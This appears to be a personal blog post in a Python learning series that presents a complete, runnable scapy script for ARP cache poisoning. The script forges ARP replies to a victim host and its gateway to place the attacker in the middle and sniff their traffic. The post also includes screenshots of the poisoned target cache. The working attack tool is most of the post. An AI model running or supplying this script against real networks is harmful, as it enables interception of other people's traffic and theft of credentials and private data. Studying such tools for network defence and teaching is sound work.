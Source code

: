 ```yaml
---
title: An ARP Spoof/Poison Program
date: 2021-06-12 10:45:47 +07:00
categories: python_101
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: A Program to poison the ARP cache of a victim host.
---
```


<p align="center">
 <img src="https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/ArpSpoof/arp_meme.jpg">
</p>


## This is a python script that poisons the ARP cache of a victim and the gateway/router to MITM and sniff data succesfully and resets the cache back upon hitting "CTRL+C".

- We sent the spoofed packets using the `scapy.ARP()` method. (Setting opcode=2 as a response)
- We print dynamically using the print function as follows: `print("\r CONTENT, end="")` (set a null char as delimiter rather than the default \n)
- Implemented a restore function to restore the arp cache.


### Code:

```python
#!/usr/bin/env python
import sys
import re
import scapy.all as scapy
import time
import re
import argparse


def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-t", "--target_ip", dest="target_ip", help="Target IP address to MITM")
    parser.add_argument("-g", "--gateway_ip", dest="gateway_ip", help="Gateway/router's IP address to MITM")
    options = parser.parse_args()
    if not options.target_ip:
        # code to handle error
        parser.error("[-] Please specify an target ip, use --help for info.")
    if not options.gateway_ip:
         # code to handle error
         parser.error("[-] Please specify a gateway ip, use --help for info.")
    return options

def get_mac(ip):
    arp_request = scapy.ARP(pdst=ip)
    broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
    arp_request_broadcast = broadcast/arp_request
    answered_list = scapy.srp(arp_request_broadcast, timeout=1, verbose=False)[0]
    clients_list = ""
    for element in answered_list:
        # use show method to view packet contents.
        clients_list += element[1].hwsrc
    return clients_list

def spoof(target_ip, spoof_ip):
    target_mac = get_mac(target_ip)
    # use scapy.ls(scapy.ARP) to view fields
    # op=2 --> opcode for response , hwsrc automatically set to attackers
    packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
    scapy.send(packet, verbose=False)

def restore(destination_ip, source_ip):
    destination_mac = get_mac(destination_ip)
    source_mac = get_mac(source_ip)
    packet = scapy.ARP(op=2, pdst=destination_ip, hwdst=destination_mac, psrc=source_ip, hwsrc=source_mac)
    # count set to 4 to make sure cache is restored
    scapy.send(packet, count=4, verbose=False)

sent_packet_count = 0
options = get_arguments()
target_ip = options.target_ip
gateway_ip = options.gateway_ip

print("""
    
    ███████████████████████████████████████████████
    ██▀▄─██▄─▄▄▀█▄─▄▄─█─▄▄▄▄█▄─▄▄─█─▄▄─█─▄▄─█▄─▄▄─█
    ██─▀─███─▄─▄██─▄▄▄█▄▄▄▄─██─▄▄▄█─██─█─██─██─▄███
    ▀▄▄▀▄▄▀▄▄▀▄▄▀▄▄▄▀▀▀▄▄▄▄▄▀▄▄▄▀▀▀▄▄▄▄▀▄▄▄▄▀▄▄▄▀▀▀
    
""")

try:
    while(True):
        spoof(target_ip, gateway_ip)
        spoof(gateway_ip, target_ip)
        sent_packet_count += 2
        # Dynamic printing
        print("\r[+] Packets sent: " + str(sent_packet_count), end="")
        #time.sleep(2)
except KeyboardInterrupt:
    print("\n[-] Detected CTRL + C ......\n\n\n Resetting ARP tables back to normal!")
    restore(target_ip, gateway_ip)
    restore(gateway_ip, target_ip)

```

### Output:

*Attacker:*

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/ArpSpoof/arpspoof1.png)

*Target arp cache after cache poisoning:*

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/ArpSpoof/arpspoof2.png)

*Target arp cache after hitting "CTRL+C" to restore cache:*

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/ArpSpoof/arpspoof3.png)





